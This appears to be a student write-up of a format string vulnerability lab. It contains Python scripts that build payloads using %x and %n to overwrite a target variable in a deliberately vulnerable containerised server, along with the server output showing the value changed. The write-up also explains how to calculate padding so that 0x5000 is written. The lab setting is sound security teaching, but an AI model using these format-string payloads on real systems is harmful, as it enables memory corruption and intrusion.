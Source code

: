 #### Code: `build_string_task3a.py`
```python
#!/usr/bin/python3
import sys

N = 1500
NUM_BYTES = 4
NUM_MEM_POSITIONS = 63

content = \
    (0x080e5068).to_bytes(NUM_BYTES,byteorder='little') + \
    ( \
        "%x"*NUM_MEM_POSITIONS + \
        "%n" + \
        "\n"
    ).encode('latin-1')

content = content + bytearray(0x0 for i in range(N - len(content)))

with open('badfile', 'wb') as f:
  f.write(content)
```

#### Container shell output
```sh
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd810
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd738
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h1122334410008049db580e532080e61c0ffffd810ffffd73880e62d480e5000ffffd7d88049f7effffd8100648049f4780e53205dc5dcffffd810ffffd81080e97200000000000000000000000000ea13f30080e500080e5000ffffddf88049effffffd8105dc5dc80e5320000ffffdec40005dcThe target variable's value (after):  0x000000ec
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 3.B
* Can you change the change the content of the `target` variable to the value `0x5000`?
    * Yes, by skipping the required number of memory positions (skip 63 memory addresses and write the 64th address), and by making the first 62 memory print a known amount of padding each (8 in our case), we can then do the math to make the 63rd memory read to have a specific amount of padding so that we print exactly 0x5000 characters before writing to the target address using `%n`.T

```python
#!/usr/bin/python3
import sys

N = 1500
NUM_BYTES = 4
PADDING = 8
NUM_MEM_POSITIONS = 62

content = \
    (0x080e5068).to_bytes(NUM_BYTES,byteorder='little') + \
    ( \
        f"%{PADDING}x"*NUM_MEM_POSITIONS + \
        f"%{0x5000 - PADDING*NUM_MEM_POSITIONS - NUM_BYTES}x" + \
        "%n" + \
        "\n"
    ).encode('latin-1')
```